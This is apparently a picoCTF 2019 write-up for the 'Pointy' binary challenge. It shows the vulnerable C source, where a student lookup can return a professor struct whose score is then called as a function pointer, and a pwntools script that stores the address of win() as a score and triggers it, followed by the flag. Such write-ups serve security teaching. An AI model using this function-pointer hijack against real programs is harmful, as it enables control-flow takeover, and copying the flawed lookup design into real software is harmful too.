

# Pointy (Binary)



<details>
	<summary>Source for vuln.c</summary>

```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define FLAG_BUFFER 128
#define NAME_SIZE 128
#define MAX_ADDRESSES 1000

int ADRESSES_TAKEN=0;
void *ADDRESSES[MAX_ADDRESSES];

void win() {
    char buf[FLAG_BUFFER];
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    puts(buf);
    fflush(stdout);
}

struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};

void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);

}

void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void* retrieveStudent(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void readLine(char * buff){
    int lastRead = read(STDIN_FILENO, buff, NAME_SIZE-1);
    if (lastRead<=1){
        exit(0);
        puts("could not read... see you!");
    }
    buff[lastRead-1]=0;
}

int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor;
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor);
        puts(professor->name);
        unsigned int value;
	    printf("Input the score: \n");
	    scanf("%u", &value);
        student->scoreProfessor(professor, value);       
    }
    return 0;
}
```
</details>

Looks like the vulnerability is scanf in the last part. The program gives scores to professors and stores them in memory printing them based on the student that scored them

This means if we student X gives professor Y a score of the win function, when we score again we can give the professors name as the students in order to call the win function when the score is printed

<details>
    <summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
import sys

argv = sys.argv

e = ELF('./vuln')
win = e.symbols['win']

if len(argv) > 1:
    from getpass import getpass
    ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
    p = ssh.process('vuln', cwd='/problems/pointy_2_030e643c8a0e842516b1c6a3ff826144')
else:
    p = process('./vuln')

p.sendlineafter('\n', 'bob')
p.sendlineafter('\n', 'frank')
p.sendlineafter('\n', 'bob')
p.sendlineafter('\n', 'frank')
p.sendlineafter('\n', str(win))         #store win function as franks score

p.sendlineafter('student\n', 'bill')
p.sendlineafter('\n', 'jerry')
p.sendlineafter('\n', 'frank')          #win function here
p.sendlineafter('\n', 'jerry')
p.sendlineafter('\n', '0')              #win function called here

p.interactive()
```
</details>

<details>
    <summary>Flag</summary>

picoCTF{g1v1ng_d1R3Ct10n5_cad9c1b8}
</details>